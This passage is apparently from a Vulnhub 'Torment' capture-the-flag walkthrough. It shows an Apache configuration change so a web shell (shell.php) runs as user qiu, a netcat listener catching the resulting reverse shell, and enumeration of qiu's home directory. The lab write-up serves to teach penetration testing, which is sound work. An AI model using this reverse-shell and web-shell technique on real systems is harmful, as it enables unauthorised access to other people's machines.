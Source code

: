 >This `/etc/apache2/apache2.conf` has to run with qiu user privileges rather than it runs as root user , I think the problem was came in including the User and Group in the configuration file that’s why.
{: .prompt-danger }

Now Lets perform that way Lets uncomment that $USERS and $GROUP variables from the configuration files and then save the file and reboot as we did earlier and after restart lets load the file shell.php again and get the shell →

![Untitled](/Vulnhub-Files/img/Torment/Untitled%2010.png)

```bash
┌──(kali㉿kali)-[~/Downloads/Vulnhub/Torment]
└─$ nc -lvnp 4444
listening on [any] 4444 ...
connect to [192.168.249.128] from (UNKNOWN) [192.168.249.144] 51888
Linux TORMENT 4.9.0-8-amd64 #1 SMP Debian 4.9.130-2 (2018-10-27) x86_64 GNU/Linux
 15:56:45 up 0 min,  0 users,  load average: 1.13, 0.31, 0.10
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=1000(qiu) gid=1000(qiu) groups=1000(qiu),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),108(netdev),113(bluetooth),114(lpadmin),118(scanner)
/bin/sh: 0: cant access tty; job control turned off
$ /bin/bash -i
bash: cannot set terminal process group (728): Inappropriate ioctl for device
bash: no job control in this shell
qiu@TORMENT:/$ whoami
whoami
qiu
qiu@TORMENT:/$ id
id
uid=1000(qiu) gid=1000(qiu) groups=1000(qiu),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),108(netdev),113(bluetooth),114(lpadmin),118(scanner)
qiu@TORMENT:/$ pwd
/
pwd
qiu@TORMENT:/$ cd /home/qiu
cd /home/qiu
qiu@TORMENT:/home/qiu$ ls -al
ls -al
total 96
drwx------ 18 qiu  qiu  4096 Jan  4  2019 .
drwxr-xr-x  4 root root 4096 Dec 27  2018 ..
-rwx------  1 qiu  qiu  5152 Jan  4  2019 .ICEauthority
-rw-------  1 qiu  qiu   187 Jan  4  2019 .bash_history
-rwx------  1 qiu  qiu   220 Dec 23  2018 .bash_logout
-rwx------  1 qiu  qiu  3526 Dec 23  2018 .bashrc
drwx------ 13 qiu  qiu  4096 Dec 27  2018 .cache
drwx------ 12 qiu  qiu  4096 Dec 31  2018 .config
drwx------  3 qiu  qiu  4096 Dec 24  2018 .gnupg
drwx------  3 qiu  qiu  4096 Dec 24  2018 .local
drwx------  5 qiu  qiu  4096 Dec 27  2018 .mozilla
```